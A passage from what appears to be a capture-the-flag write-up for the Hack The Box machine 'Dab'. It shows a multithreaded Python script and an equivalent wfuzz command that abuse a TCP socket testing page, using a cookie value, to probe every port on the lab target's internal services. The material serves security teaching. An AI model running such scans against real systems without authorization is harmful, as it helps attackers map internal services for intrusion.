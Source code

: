 ![224231448.png]({{site.baseurl}}/Images/Dab/224231448.png)

Browsing back to the site on port 8080, we can see that we are in and have some kind of TCP Socket testing application. 

Testing a few common ports with random "Line to send" values we can see that it appears to be connecting to the port with telnet or netcat and then sending the value we have put into the "line to send".

![224264216.png]({{site.baseurl}}/Images/Dab/224264216.png)

We could use our reliable friend wfuzz that has helped us so much so far, but we also wrote our own custom python script that uses some multi-threading magic to speed things up:
```
import requests
from multiprocessing import Pool as ThreadPool
# A dict that holds our special cookie value
 
cookies = {
        'password': 'secret'
        }
 
# For all ports, loop through them, submitting them to the server.
ports =  range(0, 65535)
     
def check(i):
    #print("checking port: "+str(i))
    params= {
            'port': i,
            'cmd': "test"
            }
 
     
    r = requests.get('http://10.10.10.86:8080/socket', cookies=cookies, params=params)
    if(r.status_code != 500):
         
        print("=============")
        print("Checking "+str(i))
        print("=============")
        print("Server Response: "+str(r.status_code))
        print("=============")
        print(r.text)
        print("##############")
 
pool = ThreadPool (50)
results = pool.map(check, ports)
 
pool.close()
pool.join()
```

For anyone looking at using tools built int to Kali, the wfuzz command that achieves the same result is below. This can also be extended with the -t argument to increase the threads and potentially make it faster. We hide any HTTP 500 Response codes, because we only want to know the ports that have successfully connected. The wordlist here is a file containing every number from 0 to 65535.
```
root@kali: wfuzz --hc=500 -w portlist -b password=secret http://10.10.10.86:8080/socket\?port\=FUZZ\&cmd\=test

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************
```